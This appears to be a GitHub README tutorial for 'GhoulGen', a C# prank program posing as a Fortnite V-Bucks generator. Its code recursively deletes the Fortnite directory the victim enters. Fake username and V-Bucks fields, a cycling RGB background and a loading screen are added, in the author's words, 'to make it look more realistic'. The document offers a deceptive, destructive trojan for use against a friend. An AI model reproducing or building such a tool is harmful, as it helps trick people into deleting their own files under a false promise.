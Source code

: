 ## GhoulGen C# Tutorial

What you need:
Visual Studio
Know how to compile a program.
A friend.

This is a simple program in C#. This is literally all it takes to waste 10 minutes of your friends precious lifetime.
```csharp
if (Directory.Exists(fortnite))
  {
     Directory.Delete(fortnite, true);
  }else{
     MessageBox.Show("Invalid File Path!", "GhoulGen", MessageBoxButtons.OK, MessageBoxIcon.Error);
  }
  ```
 
It also strings the username and the fortnite directory, aswell as the amount of vbucks he wants. This is just to make it more realistic.
 ```csharp
string userName = username.Text;
string fortnite = textBox1.Text;
```

Also added RGB to the form. Who in the right mind wouldn't trust some random software made in 10 minutes with some cool changing colors?
```csharp
private void rgb()
        {
            Control.CheckForIllegalCrossThreadCalls = false;
            int rgbamount = 1;
            int r = 255;
            int g = 0;
            int b = 0;
            for (; ; )
            {
                this.BackColor = Color.FromArgb(r, g, b);
                bool flag = r > 0 && b == 0;
                if (flag)
                {
                    r -= rgbamount;
                    g += rgbamount;
                }
                bool flag2 = g > 0 && r == 0;
                if (flag2)
                {
                    g -= rgbamount;
                    b += rgbamount;
                }
                bool flag3 = b > 0 && g == 0;
                if (flag3)
                {
                    b -= rgbamount;
                    r += rgbamount;
                }
                Thread.Sleep(5);
            }
        }
```

I even took the time and bothered to add a whole loading screen. Once again, literal useless. Just to make it look more realistic.

![](https://images-ext-1.discordapp.net/external/l2Mqf90-YSlKX8Yq4qWeZYLH3d9Em_mTXD6jJ0sIg-k/https/cdn.upload.systems/uploads/v0pJosbk.png)
